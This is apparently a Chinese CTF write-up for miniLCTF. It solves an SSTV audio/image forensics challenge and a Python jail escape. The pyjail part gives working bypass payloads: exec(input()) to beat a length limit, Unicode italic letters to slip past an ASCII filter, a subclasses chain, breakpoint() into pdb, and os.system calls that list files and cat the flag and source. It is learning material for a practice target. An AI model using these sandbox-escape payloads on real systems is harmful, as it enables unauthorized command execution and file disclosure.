# miniLCTF{1t_w0rk5_w1th_SSTV_@nd_R0b0t36!}

## SSTV 音频转换图片

### pwd文件 在Audacity中打开，调到查看音频频谱，发现压缩包密码

### 在图片中发现一半flag，分离wav文件，用SSTV发现另外一半

# minilctf{nYx6cdmtzziRnZ0mS2kPd4GLouv-nbe-}

## pyjail

### kali nc连接

### 多次尝试输入并发现

#### 限制输入长度

##### 查询资料获取解决方法

###### 使用exec(input()) 绕过输入长度限制

#### 限制字母

太绝对了，不能用字母怎么执行代码啊啊啊啊啊

##### 百度一下我就知道

###### 居然可以用斜体字母绕过

###### 猜想限制的为ascll码的字母，但有其他长得一样的字母，unicode码不一样

验证




验证成功

##### 一个个换属实麻烦，那就用python，简简单单啦

```
𝑎,𝑏,𝑐,𝑑,𝑒,𝑓,𝑔,𝘩,𝑖,𝑗,𝑘,𝑙,𝑚,𝑛,𝑜,𝑝,𝑞,𝑟,𝑠,𝑡,𝑢,𝑣,𝑤,𝑥,𝑦,𝑧
a = ['𝑎', '𝑏', '𝑐', '𝑑', '𝑒', '𝑓', '𝑔', '𝘩', '𝑖', '𝑗', '𝑘', '𝑙', '𝑚', '𝑛', '𝑜', '𝑝', '𝑞', '𝑟', '𝑠', '𝑡', '𝑢', '𝑣', '𝑤',
     '𝑥', '𝑦', '𝑧']
c = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w',
     'x', 'y', 'z']
b = list(input())
for i in b:
    if i in c:
        print(a[ord(i) - 97], end='')
    else:
        print(i, end='')
```

#### 可以进行计算

##### 并没有什么用

### 解决

#### 尝试输入字母

oh hacker!

#### 查询资料，可以用八进制表示代码（震惊，还有这种操作）

##### 验证



也没运行啊喂

###### 再次百度，原来得加 exec

再来



淦没结果

再次百度，原来得加 print

再来



##### 检验成功

##### 但是还是得加exec 还是得输入字母

##### 淦

#### 只要查不死，就继续查   发现可以跟换字母字体（还有这种操作）

##### 赶紧去试一试



芜湖

理论基础已经成立

开始试pyload

### 多次尝试pyload

#### pyload

##### one

```
().__𝑐𝑙𝑎𝑠𝑠__.__𝑏𝑎𝑠𝑒𝑠__[0].__𝑠𝑢𝑏𝑐𝑙𝑎𝑠𝑠𝑒𝑠__()[40]('./𝑓𝑙𝑎𝑔').𝑟𝑒𝑎𝑑()
input too long
```

#### 淦，还有一个输入过长没解决

##### 查，接着查！

###### 使用exec(input()) 绕过输入长度限制



至少不是 too long

###### two

```
𝘩𝑒𝑙𝑝()  请求支援，请求支援
__main__
```



发现一些好像有点用的东西

###### three

```
breakpoint()   函数进入pdb调试模式
先用step进入模块，可以使用list查看当前代码块
```



发现很有用的东西

###### four

```
__import__('os').system('ls')
```



###### five

```
__import__('os').system('cat ./flag')
```



终于获得flag 

###### six

```
__import__('os').system('cat chall.py')
```



代码拿来吧你